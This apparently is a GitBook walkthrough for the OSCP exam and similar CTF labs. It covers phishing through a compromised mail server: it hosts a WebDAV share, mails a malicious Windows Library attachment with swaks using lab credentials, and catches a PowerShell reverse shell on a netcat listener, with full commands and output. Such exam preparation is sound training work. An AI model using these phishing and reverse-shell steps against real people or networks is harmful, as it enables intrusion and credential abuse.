 ```yaml
---
description: >-
  This is a guide for the OSCP & other CTF's that may include phishing as part
  of the exam.
---
```


# OSCP Phishing Guide



## Outline

In this page we will conduct a phishing attack that goes as follows:

We open a WebDAV server on our Kali host, we create a malicious Microsoft Office Macro that we will send to the organization through a compromised Mail server. Once the victim clicks on the malicious macro it will open a reverse shell back to our Kali attack host.

## Start WebDAV Server

```shell-session
kali@kali:~$ mkdir /home/kali/beyond/webdav

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
...
: Serving on http://0.0.0.0:80 ...
```

## Create Malicious Windows Library

Next we'll create a malicious Windows Library file that we'll use to hold our reverse shell.

{% embed url="https://www.rotta.rocks/ethical-hacking/exploiting-microsoft-office/windows-library-files" %}
Create a malicious Windows Library File
{% endembed %}

Once we've created the Windows Library we transfer the Lirbary file and powercat.ps1 script to the WebDAV server.

## Send Email to Victims

In the beginning of this page we mentioned that we have access to a compromised mail server, there are various tools we can use to leverage SMTP. We will use swaks

```shell-session
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

## Success

After some time we can check back on our netcat listener and see that we successfully phished a victim.

```
elistening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>
